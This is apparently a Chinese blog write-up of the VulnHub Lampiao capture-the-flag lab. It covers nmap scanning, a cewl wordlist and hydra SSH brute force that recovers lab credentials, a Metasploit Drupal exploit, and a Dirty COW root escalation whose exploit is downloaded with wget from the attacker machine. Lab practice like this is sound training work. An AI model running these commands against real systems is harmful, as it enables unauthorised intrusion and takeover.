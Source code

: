 ```yaml
---
title: 靶场练习-Lampiao
tags:
  - 网络安全
readmore: true
date: 2023-02-23 13:07:58
---
```


### 环境搭建

访问官网：https://www.vulnhub.com/entry/lampiao-1,249/

页面向下滑找到 Download 下载靶场；下载成功后，启动虚拟机，单击“打开”选项，找到刚刚下载并解压好的靶场文件，等待导入完成；

完成后启动靶机，可以看到只有一个登录窗口，此时靶机已经成功运行。

启动 kali 虚拟机，并同时设置两个机器的网络配置为 NAT 模式；

这样可以使所有的虚拟机共同处在一个独立的网段（和物理机不在同一个网段），方便后续探索靶机 ip 时更快的找到靶机 ip；

<!-- more -->

### 获取 shell

由于靶机无法直接登录，所以我们也无法获取靶机的任何信息，最重要的就是要先访问靶机；

#### nmap 扫描

nmap： nmap（Network Mapper）是一款开源免费的针对大型网络的端口扫描工具，nmap可以检测目标主机是否在线、主机端口开放情况、检测主机运行的服务类型及版本信息、检测操作系统与设备类型等信息。

官方网站：https://nmap.org/

使用 nmap 扫描整个网段，找到靶机的 ip 地址：

```bash
nmap -sS -Pn 192.168.19.0/24
# -sS 半开放扫描，打开一个不完全的 TCP 连接，速度较快且不容易被发现
# -Pn 穿透防火墙进行扫描，有的防火墙禁止 ping 命令，可以使用此选项
# 要扫描的网段，24指的是32位二进制的前24位用 “1” 表示，并变化后面的几位来进行扫描
```

 ![](https://pic.mewhz.com/lampiao/1.png)

发现这个 ip 的 80 端口是开放的，去访问这个网站，发现是一个静态页面；

进一步扫描 ip 开放的所有端口：

```bash
nmap -T4 -p 1-65535 192.168.19.136
# -T4 设置扫描的时间模板为 T4， 可以更快的扫描
# -p 设置扫描的端口范围，1-65535 是所有的端口
```

 ![](https://pic.mewhz.com/lampiao/2.png)

发现开启着 ssh 服务(22端口)，80 端口和 1898 端口，尝试访问 1898端口。

#### 爆破用户名密码 (第一种获取 shell 方法)

访问 1898 端口后，尝试都点击一下，在 url node = 1 中尝试修改为 2 并访问:

```bash
http://192.168.19.136:1898/?q=node/2
```

 ![](https://pic.mewhz.com/lampiao/3.png)

发现一个 m4a 和 png 文件，扫描二维码发现没有有用的信息，听 m4a 文件可以得到用户名为

>tiago

得到了用户名，可以尝试使用 cewl 制作字典来进行爆破:

```bash
cewl http://192.168.19.136:1898/?q=node/1 -w password.txt
# cewl 可以探索网站的内容并生成一个字典文件
# -w 结果写入文件
```

 ![](https://pic.mewhz.com/lampiao/4.png)

使用 hydra 工具：

```bash
hydra -l tiago -P password.txt 192.168.19.136 ssh
# -l: 指定用户名进行爆破
# -P 用于指定密码字典 (大写)
# ssh: 指定服务名，支持的服务跟协议有：telnet，ftp，pop3等等。
```

成功得到用户名密码：username: **tiago**   password: **Virgulino**

![](https://pic.mewhz.com/lampiao/5.png)

使用 ssh 命令成功登录：

```bash
ssh tiago@192.168.19.136
```

![](https://pic.mewhz.com/lampiao/6.png)

#### 漏洞利用 (第二种获取 shell 方法)

进入网站后，先使用 dirsearch 命令扫描一下目录：

```bash
dirsearch -u 192.168.19.136:1898
```

![](https://pic.mewhz.com/lampiao/7.png)

发现 CHANGELOG.txt 文件，并通过该文件得到了 Drupal 的版本，百度搜索发现该版本存在漏洞，使用 msfconsole 利用漏洞；

msfconsole：集成了很多漏洞的利用的脚本，并且使用起来很简单的网络安全工具

```bash
msfconsole
# 如果启动很慢，可以在 kali 中直接启动 metasploit framework
search Drupal
# 启动后输入该命令搜索 Drupal 相关漏洞
```

![](https://pic.mewhz.com/lampiao/8.png)

找到对应的漏洞

```bash
use 1
# 使用攻击模块 1
set rhosts 192.168.19.136
# 设置目标 ip
set rport 1898
# 设置目标端口
show options
# 查看信息是否正确
run
# 运行攻击模块
```

成功拿到对应的 shell

![](https://pic.mewhz.com/lampiao/9.png)

执行shell获取交互式命令，由于我们获取的shell并不是一个具有完整交互的shell，对于已经安装了python的系统，我们可以使用 python提供的pty模块，只需要一行脚本就可以创建一个原生的终端，命令如下：

```python
shell
# shell 获取目标主机的远程命令行shell，使用exit退出当前的shell
python -c 'import pty;  pty.spawn("/bin/bash")'
# -c 可以在命令行调用 python 代码
# pty 伪终端工具
# pty.spawn 生成一个进程，并将其控制终端连接到当前进程的标准 io。
```

![](https://pic.mewhz.com/lampiao/10.png)

### 提权

获取 shell 后发现是一个低权限的用户，所以我们需要提权。查看 linux 内核版本：

```bash
uname -r
# 用于显示操作系统的信息
# -r 显示操作系统的发行编号
```

![](https://pic.mewhz.com/lampiao/11.png)

发现该版本存在脏牛漏洞，可以使用脏牛(Dirty Cow)漏洞进行提权；

```bash
searchsploit dirty
# searchsploit 是一个用于Exploit-DB的命令行搜索工具
```

ExploitDB是一个面向全世界黑客的漏洞提交平台；https://www.exploit-db.com

![](https://pic.mewhz.com/lampiao/12.png)

使用 40847.cpp 作为提权的代码文件，首先在本机找到该文件

```bash
cd /usr/share/exploitdb/exploits/linux/local/
cp 40847.cpp /tmp
cd /tmp
```

然后将里面内容复制到靶机上，可以直接使用复制粘贴，也可以使用 xftp 或者 kali 使用 python 开启 web 服务，靶机通过 wget 命令进行下载。

```python
python -m http.server 8080
# 开启 8080 端口，kali 使用
wget 192.168.19.130:8080/40847.cpp
# 下载文件，文件保存在本地
```

下载后使用 g++ 进行编译

```bash
 g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
 # g++ 是C&C++ 的编译器
 # -Wall 允许发出GCC能够提供的所有有用的警告
 # -pedantic 允许发出ANSI/ISO C标准所列出的所有警告
 # -O2 编译器的优化选项的4个级别，-O0表示没有优化,-O1为缺省值，-O3优化级别最高
 # -std=c++11 就是用按C++2011标准来编译
 # -pthread 在Linux中要用到多线程时，需要链接pthread库
 # -o dcow gcc生成的目标文件,名字为dcow
 ./dcow 
 # 执行编译后的文件
```

获取到 root 用户密码：dirtyCowFun

```bash
su root
# 切换 root 用户，输入密码后成功登录
```

在 root 目录下成功找到 flag.txt

![](https://pic.mewhz.com/lampiao/13.png)

---

### 参考资料

[VulnHub-Lampiao 靶场渗透测试](https://www.cnblogs.com/l2sec/p/14403481.html)

[黑客工具之hydra详细使用教程](https://zhuanlan.zhihu.com/p/397779150)

[记一次lampiao靶机渗透](https://zhuanlan.zhihu.com/p/349079469)

[【工具使用】--- cewl](https://blog.csdn.net/qq_43168364/article/details/111773051)

[nmap 常用参数](https://blog.csdn.net/tryheart/article/details/108245986)

[msfconsole的使用 ](https://www.cnblogs.com/Junglezt/p/16009926.html)

[Python 3.10.0 官方文档(全)](https://www.bookstack.cn/books/python-3.10.0-zh)

[网络安全nmap扫描端口命令详解linux网络探测](https://www.920vip.net/article/66)

